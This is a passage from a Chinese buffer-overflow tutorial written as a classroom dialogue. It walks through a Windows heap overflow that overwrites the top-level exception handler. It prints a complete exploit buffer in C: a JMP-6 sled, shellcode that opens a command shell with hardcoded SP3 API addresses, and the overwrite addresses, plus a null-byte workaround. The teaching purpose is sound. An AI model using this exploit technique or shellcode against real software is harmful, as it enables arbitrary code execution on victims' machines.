 “Yeah！可以跳转了！”全班同学都很高兴。

“注意，这里有个小问题， mov[ecx],eax 后，跟着还有一句 mov [eax＋4], ecx ，这样不但把 shellcode 地址写进默认异常处理地址中，也会把默认异常处理地址写进[shellcode 地址+4]的内存单元当中，把 Shellcode 中的指令破坏了。”

“就是啊……”

“要解决这个问题，我们可以用 JMP 6 这样的指令来代替 nop，这样就能跳过后面被破坏的字节。”

“现在回到我们的程序中，把它合起来吧！”老师说道，“先是 208 字节覆盖掉‘buf1’的空间和空堆的管理结构；然后是 4 字节 ShellCode 的地址，最后是 4 字节异常处理地址。如图 4－21。”

![](img/Q 版缓冲区溢出教程 121450.jpg)

“但这里的 ShellCode 的地址是多少呢？”宇强问道。

“问得好！”老师说，“我们先把 ShellCode 保存在‘mybuf’里面，所以直接把‘mybuf’的地址读出来填入即可。”

“哎哟！‘mybuf’是数组，那地址还是会变，还是不通用啊！”大家觉得很奇怪。

“嗯，这样做的确不通用，后面我们会改进的，这里先试试效果！”老师说道，“构造出来的‘mybuf’是这样的：”

```
char mybuf[240] = 
    "\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\xeb\x06\xeb\x06\xeb\x06\xeb\x06\xeb\x06"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90" //Jmp 06 和 NOPS 共 101 bytes
    //下面是开 DOS 窗口的 ShellCode，有 107 字节
    "\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
    "\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
    "\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
    "\x64\x9f\xE6\x77" //SP3 loadlibrary 地址 0x77e69f64
    "\x52\x8D\x45\xF4\x50" 
    "\xFF\x55\xF0"
    "\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
    "\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
    "\x50\xB8"
    "\xc3\xaf\x01\x78" //sp3 system 地址 0x7801afc3
    "\xFF\xD0" 
    //上面一共 208 字节， 接下来就是 ShellCode 地址和顶层异常处理地址
    "\x40\x60\x40\xFF\x4c\x04\xec\x77" 
```

“运行报错，如图 4－22。可以看到‘mybuf’的地址是 0x00422A40，所以我们要把 ShellCode 的地址（即 What 的位置）赋成它。”

![](img/Q 版缓冲区溢出教程 122822.jpg)

“注意啊！‘mybuf’的地址是有 00 的，strcpy 拷贝字符串时就会被截断。所以我们先赋成 ff，在 main 里面拷贝完成后，再把 ff 改回 00。大家参看程序 heapvul1Exp.c（光盘有收录）。编译并执行，弹出了一个 DOS 对话框，如图 4－23。”
